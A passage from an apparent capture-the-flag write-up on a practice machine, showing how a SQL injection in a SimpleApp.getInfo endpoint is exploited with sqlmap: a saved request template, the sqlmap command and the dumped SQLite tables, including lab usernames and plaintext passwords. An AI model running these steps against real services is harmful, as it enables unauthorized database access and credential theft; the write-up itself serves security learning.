 <img src="/assets/writeups/2023-06-02-pc/SQLInjection.png" width=1200px alt="SQL Injection intercept">

## Exploitation

To exploit this vulnerability, let's use sqlmap. 

1. Save the vulnerable request and replace the `'` with a wildcard `*`.

```
# req.txt
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:45793
// [Headers goes here] // 

{"metadata":[{"name":"token","value":"INSERT-VALID-TOKEN-HERE"}],"data":[{"id":"*"}]}
```

Running sqlmap:

```bash
sqlmap -r req.txt --risk 3 --level 5
```

The scan detects that the database is [SQLite3](https://www.sqlite.org/index.html) and dumps it. Since it's a serverless database, we can't find any information about the system. The database consists of two tables: messages and accounts.

If you want to gain a deeper understanding of injecting in SQLite3, make sure to check out [this paper](https://www.exploit-db.com/docs/41397).

```
Table: messages
[1 entry]
+----+----------------------------------------------+----------+
| id | message                                      | username |
+----+----------------------------------------------+----------+
| 1  | The admin is working hard to fix the issues. | admin    |
+----+----------------------------------------------+----------+

Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
+------------------------+----------+
```
